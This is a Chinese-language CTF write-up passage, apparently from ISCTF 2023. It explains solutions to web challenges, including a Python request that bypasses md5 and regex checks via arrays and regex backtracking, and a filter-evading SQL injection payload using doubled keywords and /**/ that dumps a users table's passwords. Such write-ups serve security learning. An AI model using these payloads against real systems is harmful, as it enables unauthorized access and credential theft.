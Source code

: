 环境变量里一个

![](https://s2.loli.net/2024/03/07/9ZrGKBpFCe8PET1.png)

### 绕进你的心里

md5 绕过，正则回溯绕过


![](https://s2.loli.net/2024/03/07/kIx6KeibftYzADa.png)

**md5和第一个preg都用数组绕过
然后第二个preg和strpos组合的话用正则回溯绕过**

payload:

```python
import requests

data={"pan_gu":"a"*1000000+"2023ISCTF"}
url="http://43.249.195.138:22110/?hongmeng[]=1&shennong[]=2&zhurong[]=a"
res = requests.post(data=data,url=url)

print(res.text)
```

![](https://s2.loli.net/2024/03/07/SMP2VWHLE8nZ47r.png)

### easy_website

sql 注入


> 同款题：[SWPUCTF 2022 新生赛]ez_sql


过滤 or select 用双写绕过

空格用/**/绕过

查当前库

![](https://s2.loli.net/2024/03/07/3plwOIZF4ygvMR5.png)

查当前库下的表

![](https://s2.loli.net/2024/03/07/CBw7UXKL5e6kDYG.png)

列出全部列的内容，最后发现是 password 里有 flag

payload：
**
POST:
username=0'/\*\*/uunionnion/\*\*/sselectelect/\*\*/group_concat(passwoorrd)/\*\*/from/\*\*/users.users/\*\*/#&password=
**
